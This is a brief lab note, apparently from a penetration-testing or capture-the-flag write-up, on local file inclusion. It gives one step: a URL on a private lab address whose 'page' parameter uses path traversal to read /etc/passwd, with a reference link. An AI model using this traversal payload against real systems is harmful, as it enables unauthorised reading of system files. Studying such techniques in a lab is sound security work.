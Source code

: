 # LFI

1. Go on http://192.168.1.16/index.php?page=../../../../../../../etc/passwd

https://book.hacktricks.xyz/pentesting-web/file-inclusion